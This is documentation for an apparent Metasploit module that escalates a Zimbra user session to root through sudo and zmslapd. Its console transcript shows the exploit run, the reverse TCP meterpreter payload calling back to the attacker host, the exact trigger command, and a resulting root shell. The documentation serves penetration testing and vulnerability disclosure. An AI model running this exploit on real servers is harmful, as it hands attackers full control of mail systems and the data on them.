 ## Vulnerable Application

Currently, as of 2022-07-26, all versions of Zimbra are vulnerable. Presumably they'll patch it eventually - I have an open security ticket with Zimbra.

## Verification Steps

Install Zimbra on any supported Linux version and get a session as the `zimbra` user. I used Ubuntu 18.04 for testing, and then CVE-2022-30333 to exploit, but this will work on a fully patched system as well. Then...

```
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                  Connection
  --  ----  ----                   -----------                  ----------
  10        meterpreter x86/linux  zimbra @ zimbra.example.org  10.0.0.146:4444 -> 10.0.0.154:39800 (10.0.0.154)

msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > use exploit/linux/local/zimbra_slapper_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/zimbra_slapper_priv_esc) > set SESSION 10
SESSION => 10
msf6 exploit(linux/local/zimbra_slapper_priv_esc) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Executing: sudo -n -l
[+] The target is vulnerable.
[*] Creating exploit directory: /tmp/.5kq9XO
[*] Attempting to trigger payload: sudo /opt/zimbra/libexec/zmslapd -u root -g root -f /tmp/.5kq9XO/.1wNk1h3
[*] Sending stage (3020772 bytes) to 10.0.0.154
[+] Deleted /tmp/.5kq9XO
[*] Meterpreter session 13 opened (10.0.0.146:4444 -> 10.0.0.154:40044) at 2022-07-21 14:04:12 -0700

meterpreter > getuid
Server username: root
```

## Options

### SUDO_PATH

The path to `sudo` on the host. If we have a proper environment with `$PATH` set, which we generally do, simply `sudo` is fine.

### ZIMBRA_BASE

The base where Zimbra is installed. Zimbra typically installs to `/opt/zimbra`, and I'm not even sure if it _can_ install elsewhere, so this default should be fine.
